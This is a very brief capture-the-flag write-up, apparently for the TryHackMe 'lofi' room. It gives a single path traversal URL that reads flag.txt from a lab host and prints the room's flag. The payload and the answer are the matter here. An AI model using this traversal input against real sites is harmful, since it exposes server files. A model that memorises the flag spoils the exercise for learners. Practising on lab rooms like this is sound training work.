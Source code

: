 # [Challenge](https://tryhackme.com/room/lofi)

"Want to hear some lo-fi beats, to relax or study to? We've got you covered!"

"Climb the filesystem to find the flag!"

Ez Path Traversal: `http://10.10.77.161/?page=../../../flag.txt`

`flag{e4478e0eab69bd642b8238765dcb7d18}`
